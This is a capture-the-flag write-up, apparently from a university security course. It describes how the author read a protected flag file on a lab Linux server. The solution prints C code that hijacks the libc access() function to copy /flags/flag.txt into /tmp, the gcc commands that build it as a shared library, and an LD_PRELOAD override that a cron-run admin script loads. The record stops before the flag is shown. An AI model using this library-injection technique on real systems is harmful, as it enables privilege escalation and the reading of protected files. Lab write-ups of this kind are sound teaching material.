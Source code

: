 # Linux Environment

## Introduction

When connecting to a Linux server listening on the port 4006 on the host ctf-fsi.fe.up.pt using a netcat program on the shell: nc ctf-fsi.fe.up.pt 4006.

This server is running on Ubuntu 20.04 similar to the one used on the SEED Labs.

## Initial Situation

Initially we get access to the system and we depare ourselves with the following message from the admin:



We can verify we don't have access to the 'flags' directory.

Next we see a script that is running every minute.
From that we can start to develop a strategy to write the flag to a file that we can access by overriding the 'access' method used in the script written by the admin that is running every minute.

We want to access the 'flags' directory to read the contents of the 'flag.txt' file. 

## Solution

First we create a 'script.c' file that has this code:<br>
```c
#include <stdlib.h>
#include <stdio.h>
int access(const char *pathname, int mode){
    system("/usr/bin/cat /flags/flag.txt > /tmp/ll.txt");
    return 0;
} 
```

Next we will create a new file named ll.txt and change the permissions:
```	bash
    $ touch  ll.txt  
    $ chmod 777 ll.txt
```

After that we will compile the c file and create a new library:
```bash
    $ gcc -fPIC -g -c script.c
    $ gcc -shared -o script.so script.o -lc
```
Finally, we will create a new 'env' file and write a LD_PRELOAD override to it, making it so that the script will run when the 'env' is called:
```bash
    $ echo 'LD_PRELOAD=/tmp/script.so' > env
```

With that, we can use the script to write to the 'll.txt' file the flag that we can't access by reading the 'flag.txt'.

After 1 minute, we will get the flag by reading the 'll.txt' file, which is: 
